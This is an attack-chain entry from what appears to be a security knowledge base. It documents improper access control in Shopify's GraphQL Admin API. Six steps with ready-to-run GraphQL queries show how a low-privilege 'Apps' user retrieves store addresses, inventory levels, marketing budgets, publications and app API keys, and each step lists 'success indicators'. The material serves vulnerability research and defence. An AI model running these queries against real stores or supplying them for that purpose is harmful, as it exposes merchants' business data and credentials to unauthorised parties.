

---
tags:
  - graphql
  - information-disclosure
  - access-control-bypass
  - shopify
  - api-vulnerability
type: attack_chain
tools:
  - '[[tools/GraphiQL]]'
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Shopify
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-Shopify-GraphQL-Admin-API-with-Apps-Permissions]]'
  - '[[procedures/Query-Store-Locations-Without-Home-Access]]'
  - '[[procedures/Query-Inventory-Levels-Without-Inventory-Permissions]]'
  - '[[procedures/Query-Marketing-Activities-Without-Marketing-Access]]'
  - '[[procedures/Query-Publications-to-Retrieve-API-Keys]]'
  - '[[procedures/Query-App-Installations-for-Sensitive-App-Details]]'
step_count: 6
techniques:
  - '[[T1078.004]]'
  - '[[Gather Victim Host Information]]'
  - '[[Data from Information Repositories]]'
updated_at: '2025-12-14T17:25:53.078Z'
description: >-
  Multi-stage attack exploiting improper permission enforcement in Shopify's
  GraphQL Admin API, allowing low-privilege 'Apps' users to disclose sensitive
  store data including locations, inventory, marketing budgets, publications,
  and app API keys.
skill_level: intermediate
impact_level: high
id: 8d975353-cfaa-4303-ac07-5c67370bf45d
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[T1078.004]]'
  - '[[Gather Victim Host Information]]'
  - '[[Data from Information Repositories]]'
---
# Shopify GraphQL Admin API Information Disclosure via Improper Access Controls

Multi-stage attack chain demonstrating improper access controls in Shopify's GraphQL Admin API, where users with only 'Apps' permissions can query sensitive store information such as locations, inventory levels, marketing activities, publications, and app API keys, leading to unauthorized data disclosure.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/GraphiQL]]

### Target Environment

- Shopify store with GraphQL Admin API enabled
- Access to GraphiQL app installed on the store
- User account with 'Apps' permissions only

### Initial Access Requirements

- Valid Shopify staff or collaborator account with 'Apps' read permissions
- No additional scopes like 'home', 'inventory', or 'marketing'
- Network access to the store's admin panel

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Access-Shopify-GraphQL-Admin-API-with-Apps-Permissions]]

**Objective**: Gain access to the GraphQL Admin API using minimal 'Apps' permissions to test for over-privileged queries.

**Instructions**: Install and access the GraphiQL app on the target Shopify store, authenticating with an account that has only 'Apps' read permissions. Reference the QueryRoot documentation to identify potential queries.

**Expected Output**: Successful connection to the GraphQL endpoint without authentication errors.

**Success Indicators**:
- GraphiQL interface loads and accepts queries
- No immediate permission denied on basic API access

### Step 2: Query Store Locations
procedure: [[procedures/Query-Store-Locations-Without-Home-Access]]

**Objective**: Retrieve store locations and addresses without required 'home' permissions.

**Instructions**: In GraphiQL, execute a query for the 'locations' field on QueryRoot to fetch store details like addresses.

```graphql
query {
  locations(first: 10) {
    edges {
      node {
        id
        name
        address {
          address1
          city
          country
        }
      }
    }
  }
}
```

**Expected Output**: List of store locations with addresses, no access denied error.

**Success Indicators**:
- Store addresses returned
- Confirmation of data disclosure without 'home' scope

### Step 3: Query Inventory Levels
procedure: [[procedures/Query-Inventory-Levels-Without-Inventory-Permissions]]

**Objective**: Access inventory data using inventoryItemId without 'inventory' permissions.

**Instructions**: Use the 'inventoryLevel' query with a known inventoryItemId (obtained from product queries if needed) to retrieve stock levels.

```graphql
query {
  inventoryLevel(inventoryItemId: "gid://shopify/InventoryItem/123") {
    id
    available
    updatedAt
  }
}
```

**Expected Output**: Inventory level details including available quantity.

**Success Indicators**:
- Inventory data accessible
- No permission check enforced

### Step 4: Query Marketing Activities
procedure: [[procedures/Query-Marketing-Activities-Without-Marketing-Access]]

**Objective**: Retrieve marketing campaign details including budgets without 'Marketing and Discounts' permissions.

**Instructions**: Execute the marketingActivities query using [[commands/graphql-query-marketing-activities]] to fetch IDs, titles, dates, and budgets.

```graphql
query {
  marketingActivities(first: 100) {
    edges {
      node {
        id
        title
        createdAt
        budget {
          total {
            amount
          }
        }
      }
    }
  }
}
```

**Expected Output**: Up to 100 marketing activities with sensitive budget information.

**Success Indicators**:
- Budget amounts exposed
- No scope enforcement

### Step 5: Query Publications
procedure: [[procedures/Query-Publications-to-Retrieve-API-Keys]]

**Objective**: Disclose publication details and associated app API keys without 'Products' permissions.

**Instructions**: Run the publications query using [[commands/graphql-query-publications-api-keys]] to get names, IDs, and API keys.

```graphql
query {
  publications(first: 100) {
    edges {
      node {
        name
        id
        supportsFuturePublishing
        app {
          apiKey
        }
      }
    }
  }
}
```

**Expected Output**: Publication data including exposed API keys.

**Success Indicators**:
- API keys returned in response
- Unauthorized access confirmed

### Step 6: Query App Installations
procedure: [[procedures/Query-App-Installations-for-Sensitive-App-Details]]

**Objective**: Access app installation details like API keys, pricing, and feedback for unauthorized apps.

**Instructions**: Use follow-up appInstallations queries with [[commands/graphql-query-app-installations-basic]], [[commands/graphql-query-app-installations-detailed]], and [[commands/graphql-query-app-installations-advanced]] to retrieve comprehensive app data.

For basic:

```graphql
{
  appInstallations(first: 100) {
    edges {
      node {
        id
        launchUrl
        app {
          apiKey
          features
        }
      }
    }
  }
}
```

For detailed:

```graphql
{
  appInstallations(first: 100) {
    edges {
      node {
        id
        publication {
          name
        }
        launchUrl
        app {
          apiKey
          features
          pricingDetails
          published
          feedback {
            messages {
              message
            }
          }
        }
      }
    }
  }
}
```

For advanced:

```graphql
{
  appInstallations(first: 100) {
    edges {
      node {
        id
        launchUrl
        app {
          pricingDetailsSummary
          apiKey
          features
          pricingDetails
          failedRequirements {
            action {
              url
              title
            }
          }
          published
          feedback {
            messages {
              message
            }
            link {
              url
            }
          }
        }
      }
    }
  }
}
```

**Expected Output**: App details including API keys, pricing, and feedback without errors.

**Success Indicators**:
- Sensitive app data like API keys and pricing exposed
- Bypass of per-app permissions

## Attack Chain Summary

### Key Achievements

1. Unauthorized access to store locations and business addresses
2. Disclosure of inventory levels and marketing budgets
3. Exposure of app API keys and installation details for low-privilege users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[T1078.004]] Valid Accounts: Cloud Accounts
- [[Gather Victim Host Information]] Gather Victim Host Information
- [[Data from Information Repositories]] Data from Information Repositories

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
